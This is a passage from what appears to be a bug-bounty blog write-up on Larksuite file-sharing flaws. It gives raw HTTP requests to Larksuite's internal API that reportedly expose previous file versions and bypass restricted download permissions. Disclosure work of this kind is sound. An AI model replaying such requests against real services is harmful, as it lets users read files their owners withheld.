 ```http
POST  /space/api/box/file/info/  HTTP/1.1
Host: internal-api-space.larksuite.com
x-command: space.api.box.file.info
Content-Type: application/json


{"version":"leaked_versionid","caller":"explorer","file_token":"ofcurrentfile","option_params":["preview_meta"]}
```


![1](/blog/assets/images/lark/3/1.PNG)


Browsing this *url in browser* we were able to download all of the *previosu versions* of the file.

---



















#### User without permission can download file's even if it's restricted.

In the previous issue, we mentioned that larksuite allowed users to *share files* and the *file access* was controlled by certain *permissions* which only *Admins of the file* can set.

In this case *we shared our file* with a user and *restricted the download permissions* , implying that the user with whom the file is being shared will be unable to download (as seen download button is disabled) the *file* but can *only view it*.

![1](/blog/assets/images/lark/4/1.png)

We were able to bypass this restriction simply by *sending this http request*:
```http
GET  /space/api/box/stream/download/all/[file-id]/  HTTP/1.1
Host: internal-api-space.larksuite.com
x-command: space.api.box.file.info
Content-Type: application/json
``` 

In the response of this request we got the *downlaod url of the file* and pasting this *url in the browser* , we were simply able to downlaod the *file irrespective of the permissions*.

Download URL will look something like this:

Url will look like `https://internal-api-space.larksuite.com/space/api/box/stream/download/all/[file-id]/`
